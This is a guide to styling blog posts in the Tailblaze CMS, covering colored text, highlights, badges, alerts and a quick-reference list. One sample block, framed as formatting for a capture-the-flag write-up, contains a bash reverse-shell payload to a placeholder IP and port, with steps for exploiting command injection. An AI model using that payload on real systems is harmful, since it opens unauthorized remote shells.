 # Rich Content Formatting Guide for Your CMS

Your Tailblaze CMS now supports rich formatting! Here's how to add colors, highlights, and custom styling to your blog posts:

## 🎨 **Colored Text**

### Method 1: Using HTML in Markdown

```html
<span style="color: red;">This text is red</span>
<span style="color: #3B82F6;">This text is blue</span>
<span style="color: green; font-weight: bold;">Bold green text</span>
```

### Method 2: Using Tailwind Classes

```html
<span class="text-red-600 font-bold">Bold red text</span>
<span class="text-blue-500 underline">Blue underlined text</span>
<span class="text-purple-600 text-xl">Large purple text</span>
```

### Method 3: Using Custom Components (MDX)

```jsx
<ColoredText color="red">This text is red</ColoredText>
<ColoredText color="blue">This text is blue</ColoredText>
```

## ✨ **Highlights and Emphasis**

```html
<mark>This text is highlighted</mark>
<span class="bg-yellow-200 px-1 rounded">Custom highlight</span>
```

Using component:

```jsx
<Highlight>This is highlighted text</Highlight>
```

## 🏷️ **Badges and Labels**

```html
<span class="bg-blue-100 text-blue-800 px-2 py-1 rounded text-sm font-medium">Badge</span>
```

Using component:

```jsx
<Badge>Important</Badge>
```

## 📦 **Alert Boxes**

```jsx
<Alert type="info">This is an info alert</Alert>
<Alert type="warning">This is a warning</Alert>
<Alert type="error">This is an error alert</Alert>
<Alert type="success">This is a success alert</Alert>
```

## 📝 **Custom Boxes**

```jsx
<Box>This content is in a styled box with border and background</Box>
```

## 💻 **Inline Code with Colors**

```html
<code class="bg-gray-100 text-green-600 px-1 py-0.5 rounded">colorful code</code>
```

Using component:

```jsx
<InlineCode>styled code</InlineCode>
```

## 🎯 **Common Color Classes**

- **Text Colors**: `text-red-600`, `text-blue-600`, `text-green-600`, `text-purple-600`, `text-pink-600`
- **Background Colors**: `bg-red-100`, `bg-blue-100`, `bg-green-100`, `bg-yellow-100`
- **Font Weights**: `font-light`, `font-normal`, `font-medium`, `font-semibold`, `font-bold`
- **Text Sizes**: `text-xs`, `text-sm`, `text-base`, `text-lg`, `text-xl`, `text-2xl`

## 🚀 **Advanced Styling Examples**

### Cybersecurity Content Example:

```html
<Alert type="warning">
  <strong>⚠️ Security Alert:</strong> This vulnerability has a
  <span class="text-red-600 font-bold">CRITICAL</span> severity rating.
</Alert>

<Box>
  <h4 class="text-blue-600 font-semibold">Exploitation Steps:</h4>
  <ol>
    <li>Identify the <InlineCode>command injection</InlineCode> point</li>
    <li>
      Craft payload:
      <code class="bg-red-100 text-red-800 px-1 rounded"
        >bash -c 'bash -i >& /dev/tcp/IP/PORT 0>&1'</code
      >
    </li>
    <li>Execute and gain <Highlight>reverse shell</Highlight></li>
  </ol>
</Box>
```

### Machine Info Box:

```html
<div class="bg-gray-50 border-l-4 border-blue-500 p-4 mb-4">
  <h4 class="text-blue-600 font-semibold mb-2">🖥️ Lab Information</h4>
  <ul class="space-y-1">
    <li><strong>Machine Name:</strong> <span class="text-green-600 font-mono">Vanity</span></li>
    <li><strong>Platform:</strong> <span class="text-blue-600">Proving Grounds Practice</span></li>
    <li><strong>Difficulty:</strong> <Badge>Intermediate</Badge></li>
  </ul>
</div>
```

## 📋 **Quick Reference**

Copy these examples directly into your CMS body field:

1. **Red text**: `<span style="color: red;">red text</span>`
2. **Blue bold**: `<span class="text-blue-600 font-bold">blue bold</span>`
3. **Highlight**: `<mark>highlighted</mark>`
4. **Info box**: `<Alert type="info">Your message</Alert>`
5. **Code**: `<InlineCode>code</InlineCode>`

Your CMS will render all of these with beautiful Tailblaze styling! 🎉
